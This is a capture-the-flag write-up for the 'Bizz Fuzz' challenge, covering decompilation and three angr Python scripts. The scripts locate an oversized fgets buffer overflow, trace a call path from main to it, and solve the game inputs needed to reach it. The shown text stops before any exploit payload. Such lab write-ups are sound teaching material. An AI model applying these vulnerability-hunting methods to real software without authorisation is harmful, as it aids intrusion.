## Bizz Fuzz
 

**Description**

FizzBuzz was too easy, so I made something a little bit harder... There's a buffer overflow in this problem, good luck finding it! 


**Write-up**

Dynamic testing. Seems to be a variant of the game "FizzBuzz".



Protections.


Decompilation. The whole program code is a huge mess of nested if's.






This function, renamed to `func_2`, has a vulnerability in the `scanf` call as it writes off by 1 number. This input is supposed to receive the values "fizz", "buzz", "fizzbuzz", or number according to the rules of the FizzBuzz game. When this function terminates, it returns an integer to the functions above. This integer will be used in different places, and depending on it call `fgets` with different values to write to a buffer. One of those paths is probably vulnerable to buffer overflow.

If divisible by 15 => fizzbuzz, divisible by 5 => buzz, divisible by 3 => fizz. If none of those, to continue the game must insert same number as asked.


However, if current level is above the int passed to the function it also terminates.

First goal is to identify where the vulnerable `fgets` is, after this understand how to reach the code.

- At this point I kinda have 4 options.
    - Manually check all the code.
        - Very time consuming and exhaustive.
    - Use a fuzzer like [AFL](https://github.com/google/AFL).
        - This binary is not a great target for fuzzing, the vulnerable code is most likely locked behind one of the many if conditions thats locked behind the game being played correctly. Additionally, it is also not sure that the vulnerable code is reachable in first place through normal code execution means.
    - Use a binary analysis tool such as [angr](https://angr.io/), that executes the binary symbolically and as such exploring the different possible states.
    - Implement a script to analyze all `fgets` in each class and cross reference with the buffer size. Such script could be done with Jython for ghidra.

Additionaly, a very curious fact is that while searching for "win" functions that could be used to print the flag found exactly that.


When checking the references, it seems is only used in the `main` function, straight at the beginning to write the pointer of the function unto stack. This is not very valuable as PIE is disabled and know anyway the location.


Decided to attempt to learn and use ANGR for the first time, to automatically execute the binary and see if it finds the vulnerability (at this point I had no ideia of the adventure this was going to be...). Had no luck with different simple approaches has automatic search with minimal aid and similars, this is to be expected honestly, pure symbolic execution suffers of problems such as path explosion, state explosion, indirect jumps and others that make it a complex problem to solve. 

One of the strategies I attempted was to execute the whole program, maximize the number of symbolic inputs and verify if EIP was overwritten, that failed completely.

A solution that managed to work was the following:
```python
import angr
import archinfo

def get_all_fgets(cfg, fgets_addr):
    callsites = []

    for func in cfg.kb.functions.values():
        for block in func.blocks:
            for insn in block.capstone.insns:
                if insn.insn.mnemonic.startswith("call"):
                    if insn.insn.operands and insn.insn.operands[0].type == 2:
                        target = insn.insn.operands[0].imm
                        if target == fgets_addr:
                            callsites.append((func.addr, block.addr, insn.address))
    return callsites

def analyze_fgets(binary_path):
    proj = angr.Project(binary_path, auto_load_libs=False)

    fgets_addr = proj.loader.main_object.plt["fgets"]
    print(f"[+] fgets address: {hex(fgets_addr)}")

    cfg = proj.analyses.CFGFast(normalize=True)

    # Search all code blocks, for the use of "fgets"
    callsites = get_all_fgets(cfg, fgets_addr)

    print(f"[+] Found {len(callsites)} calls to fgets")

    buffer_sizes_per_function = {}

    # Analyze all fgets call's
    for func_addr, block_addr, call_addr in callsites:
        print("\n-----------------------------------")
        print(f"Callsite: function={hex(func_addr)}, block={hex(block_addr)}, insn={hex(call_addr)}")

        # Prepare the symbolic state
        buffer_size = buffer_sizes_per_function.get(func_addr)
        if buffer_size == None:
            # heavy path, executes whole function until fgets to discover size of buffer
            state = proj.factory.blank_state(addr=func_addr)
        else:
            # Light path executes only the block associated with the fgets operation
            state = proj.factory.blank_state(addr=block_addr)

        simgr = proj.factory.simgr(state)
        simgr.explore(find=call_addr)

        # was not able to reach fgets
        if not simgr.found:
            print("  [!] Could not symbolically reach this callsite")
            continue

        call_state = simgr.found[0]

        # Fetch arguments passed to fgets
        esp = call_state.regs.esp
        buffer_ptr = call_state.memory.load(esp, 4, endness=archinfo.Endness.LE)
        size = call_state.memory.load(esp+4, 4, endness=archinfo.Endness.LE)

        buffer_ptr = call_state.solver.eval(buffer_ptr)
        size = call_state.solver.eval(size)

        print(f"  fgets(buffer={hex(buffer_ptr)}, size={size})")

        # Try to infer buffer size from buffer (EBP-buffer_ptr) if executing function for first time
        if buffer_size == None:
            ebp_ptr = call_state.solver.eval(call_state.regs.ebp)
            buffer_sizes_per_function[func_addr] = ebp_ptr - buffer_ptr
            buffer_size = buffer_sizes_per_function[func_addr]

        if size > buffer_size:
            print("Found buffer overflow at: " + hex(call_addr))
            break
        else:
            continue

analyze_fgets("/home/alex/Downloads/ctfs/vuln")
```

This script will extract all references to the `fgets@plt` and symbolically execute their associated block of code. During symbolic execution it will compare the size argument associated with `fgets` and the corresponding destination buffer size. It basically verifies that `buff_ptr + size` will end up at an higher address than `EBP`, as such confirming there is an overflow.



An "optimization" I did in the code is the creation of `blank_state` with block_addr (light path) or func_addr (heavy path). I need to execute the state with `func_addr` if it's the first time im executing that function, otherwise EBP is not initialized and can't determine the buffer size. If function already executed once, since buffer size is always the same for that function, I simply store it in a dictionary and reuse it, only having to execute the block_addr that belongs to the function.

The script takes around 40 minutes to find the vulnerability. I should leave as a note that this is the first time I used ANGR and found out im not too adept at it. Way more optimized strategies definetly exist. Using ghidra jython here would have accelerated the process by a lot.

A way more direct approach, that slightly relies on luck and assumptions, is grepping all assembly instructions related to pushing the size argument in stack of `fgets` and assuming there is a push that writes more than 0xFF. This instantly identifies the vulnerable `fgets`.


Now, knowing the address of the vulnerable function, I have to build a list of inputs that leads to this exact call, since this function is not "easily" reachable (at least visually) and goes through multiple iterations of the "game" logic function.

To approach this problem, first had to discover a "path" from entry point to vulnerability. To do this, I used ANGR to build a CFG of the binary, then used a DFS algorithm to search for the path. The algorithm starts at the "vulnerable node" and searches for main.

```python
def get_cfg_to_vuln(binary_path):
    address_vulnerable = 0x808aeb0
    func_addr = 134786675
    block_addr = 134786715
    main = 0x0814c22c

    proj = angr.Project(binary_path, auto_load_libs=False)
    cfg = proj.analyses.CFGFast()

    # Find path from entry_node (vulnerable code) to stop_node (main)
    entry_node = cfg.model.get_any_node(func_addr)
    stop_node = cfg.model.get_any_node(main)

    paths = []
    find_path(cfg, entry_node, stop_node, paths)

    # Print function addresses (paths)
    for node in paths:
        print(hex(node.addr) + " <- ", end="")

# Used to avoid cycles
visited = []
def find_path(cfg, curr_node, stop_node, paths):
    predecessors = curr_node.predecessors
    paths.append(curr_node)
    visited.append(curr_node.addr)
    print("Visiting node at addr: " + hex(curr_node.addr))

    # found target node
    if curr_node.addr == stop_node.addr:
        print("Found path, returning...")
        return True

    # go down the tree (well in fact is inverted, but same logic)
    for pred in predecessors:
        pred = get_function_node(cfg, pred)

        if pred.addr in visited:
            print("Node with addr: " + hex(pred.addr) + ", already visited, skipping.")
            continue

        found = find_path(cfg, pred, stop_node, paths)

        if found:
            return True
 
    # no more nodes and didn't reach target, take it out
    paths.pop()
    return False


def get_function_node(cfg, pred):
    # CFGFast returns a CFG of blocks, these have smaller granularity than the function and will incorrectly guide to "impossible" paths
    # e.g. can return blocks of PLT functions like puts, which will have direct references to main
    for func in cfg.kb.functions.values():
        for block in func.blocks:
            if pred.addr == block.addr:
                return cfg.model.get_any_node(func.addr)

get_cfg_to_vuln("/home/alex/Downloads/ctfs/vuln")
```

After executing the code, got the following execution path:
```
0x808ae73 (vulnerability) <- 0x8109f08 <- 0x81313b8 <- 0x8143ffd <- 0x813ca30 <- 0x8140c2e <- 0x812d430 <- 0x81355d3 <- 0x813282a <- 0x814668f <- 0x814868f <- 0x8147792 <- 0x814215d <- 0x81237e9 <- 0x81451af <- 0x811d5b3 <- 0x814c22c (main)
```



This code takes approximately 39 seconds to build the CFG and execute the DFS algorithm. This probably could be optimized with a better algorithm such as Dijkstra.

The last step is to obtain all the necessary conditions that lead the execution through the discovered path.

```python
def get_conditions_to_path(binary_path):
    path = [(0x814c22c,0x0814c268),(0x811d5b3,0x811d5d9),(0x81451af,0x81451d5),(0x81237e9,0x812382a),(0x814215d,0x814219e),(0x8147792,0x81477b8),(0x814868f,0x81486b5),(0x814668f,0x81466b5),(0x813282a,0x8132850),(0x81355d3,0x81355f9),(0x812d430,0x812d456),(0x8140c2e,0x8140c8a),(0x813ca30,0x813cb2e),(0x8143ffd,0x814403e),(0x81313b8,0x8131630),(0x8109f08,0x8109f9a),(0x808ae73,0x808aeb0)]
    conditions = []
    find_conditions(binary_path, path, conditions)

    # It's over
    print(conditions)


def find_conditions(binary_path, path, conditions):
    game_addr = 0x080486b1

    proj = angr.Project(binary_path, auto_load_libs=False, use_sim_procedures=True)
    cfg = proj.analyses.CFGFast(normalize=True)    # Only used for the static execution plan
    proj.hook(game_addr, game_hook())

    # Hook & Ignore this functions due to my lack of skill
    # They introduce path explosion and are useless in the context of reaching the path but,
    # they create loops of function calls each with multiple nested if's making execution extremely resource intensive and slow
    # and I honestly don't know how to deal with it in a "smart" and generic way
    blocked_functions = [0x0812f1b9, 0x08127c08, 0x0814ac03, 0x0812edb3, 0x0813326e, 0x081294b8, 0x08138931, 0x081241ca, 0x0813cf2e, 0x08143724, 0x08131dba, 0x081255ef, 0x08137f92, 0x0811ead2, 0x0811fbb3, 0x0812c368, 0x08122ea8]
    for func_addr in blocked_functions:
        proj.hook(func_addr, fast_path_hook(cfg, func_addr))


    for block in path:
        initial_addr = block[0]
        target_addr = block[1]

        #block_input = execute_statically_segment(proj, cfg, initial_addr, target_addr)
        block_conditions = execute_dynamically_segment(proj, initial_addr, target_addr)

        conditions.append(block_conditions)
        proj.hook(initial_addr, fast_path_hook(cfg, initial_addr))


def execute_dynamically_segment(proj, initial_addr, target_addr):
    # The goal of this function is to dynamically execute the traces, and gather the necessary
    # conditions to reach the "target_addr", by conditions I mean the necessary returns from calling the game function
    # where fizzbuzz is played.
    # Based on these values, I can then extrapolate the necessary values when playing the game.
    # If e.g. is 5, I just need to play the game that amount of times.

    state = proj.factory.blank_state(addr=initial_addr)
    simgr = proj.factory.simgr(state)
    #simgr.use_technique(angr.exploration_techniques.LoopSeer())
    state.globals['game_rets'] = []

    # start dynamic analysis
    print("Starting dynamic execution for function: " + hex(initial_addr) + ", trying to reach addr: " + hex(target_addr))
    simgr.explore(find=target_addr)

    if not simgr.found:
        print("Dynamic execution failed, terminating...")
        exit(-1)

    print("Found necessary conditions to reach target " + hex(target_addr) + ":")
    final_state = simgr.found[0]

    # Fetch the symbolic variables, hopefully they are in order
    sym_res_list = state.globals['game_rets']
    block_conditions = []

    # Loops over the symbolic variables gathered, only solving the one's in the successful path
    for sym_res in sym_res_list:
        if isinstance(sym_res, int):
            block_conditions.append(sym_res)
            print("[++] Found concrete varible: " + hex(sym_res))
            continue

        is_constrained = False

        # check if variable is in successful path by comparing to constraints
        for c in final_state.solver.constraints:
            if not sym_res[0].variables.isdisjoint(c.variables):
                is_constrained = True 
                break

        if is_constrained:    
            concrete_ret = final_state.solver.eval(sym_res[0], cast_to=int)
            block_conditions.append(concrete_ret)
            print("[++] Found concrete varible: " + hex(concrete_ret))

    return block_conditions


class game_hook(angr.SimProcedure):
    # Hooks to the game function and returns symbolic variable representing an 
    # integer, instead of playing the game which would be an extremely heavy procedure.
    def run(self):
        caller_addr = self.state.callstack.ret_addr

        #print("[+] Game Hook executed from addr: " + hex(caller_addr))
        sym_res = claripy.BVS('game_ret', 32)

        # Add new entry to the list
        entry = (sym_res, caller_addr)
        self.state.globals['game_rets'].append(entry)

        # The result will always be a positive integer, so may as well constrain it.
        state = self.state
        state.solver.add(sym_res >= 0)
        state.solver.add(sym_res <= 0xFFF)

        return sym_res

class fast_path_hook(angr.SimProcedure):
    def __init__(self, cfg, func_addr, *args, **kwargs):
        # Initialize the SimProcedure using the parent constructor
        super().__init__(*args, **kwargs)
        
        # Store cfg for later use
        self.cfg = cfg
        self.func_addr = func_addr

    def run(self):
        # Fast path means taking the condition that leaves the function
        # in all the blocked functions the fastest path is the iVar1 variable having same value as the parameter passed to the game
        # game(4) means iVar1 must be 4
        print("Ignored function..." + hex(self.func_addr))

        func = self.cfg.kb.functions[self.func_addr]

        for block in func.blocks:
            for insn in block.capstone.insns:
                if insn.insn.mnemonic.startswith("push"):
                    if insn.insn.operands and insn.insn.operands[0].type == 2:
                        val_to_win = insn.insn.operands[0].imm
                        self.state.globals['game_rets'].append(val_to_win)
                        return val_to_win


get_conditions_to_path("/home/alex/Downloads/ctfs/vuln")
```

My initial goal was to dynamically execute the program and gather the conditions, by dynamically solving them with very small intervention. Alas, it did not go as expected and took me on a weird path. 

My first challenge was the game function, the symbolic execution of the C lib funcs and the loop created by it, made execution not feasible in a considerate time. Therefore, implemented a hook for the function, where I immediately return from it a symbolic variable of 32 bits, basically representing the result of the function.

At this point I thought, that just leaving the program to execute would be enough, the framework uses the symbolic variable and then I just solve to the values that reach the desired state.

This worked for majority of the path, however, had 2 problematic paths when searching for the 12th and 15th function in the path, they were pretty deep in the execution flow and some of the functions called in between that were "irrelevant" for the execution created loops (well, not completely irrelevant as I need to get out of them). This completely crashed my VM multiple times.

To solve the situation, created another hook, the fast path hook, where instead of dynamically executing the function I get the CFG and return the value that was pushed for the `game` function call. This works because they all seem to follow the same conditional logic, if value is equal it leaves the function.

This code executes relatively fast, althought far from the ideal solution.
